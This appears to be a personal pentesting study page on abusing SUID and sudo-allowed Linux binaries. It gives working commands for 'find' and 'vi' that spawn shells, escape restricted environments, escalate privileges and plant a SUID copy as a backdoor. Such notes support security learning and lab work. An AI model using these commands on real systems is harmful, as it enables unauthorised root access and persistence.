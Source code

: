```yaml
---
title: Suid Binaries
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, privilege escalation
---
```



# Suid binaries

Resources: [https://gtfobins.github.io/](https://gtfobins.github.io/).


## Most used (by me)

### find

#### Shell
It can be used to break out from restricted environments by spawning an interactive system shell.

```bash
find . -exec /bin/sh \; -quit
```

#### SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```bash
sudo install -m =xs $(which find) .

./find . -exec /bin/sh -p \; -quit
```

#### Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
sudo find . -exec /bin/sh \; -quit
```

### vi

#### Shell
It can be used to break out from restricted environments by spawning an interactive system shell.

```bash
#one way
vi -c ':!/bin/sh' /dev/null

# another way
vi
:set shell=/bin/sh
:shell
```
Used at [HTB machine Vaccine](htb-vaccine.md).


#### Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
sudo vi -c ':!/bin/sh' /dev/null
```

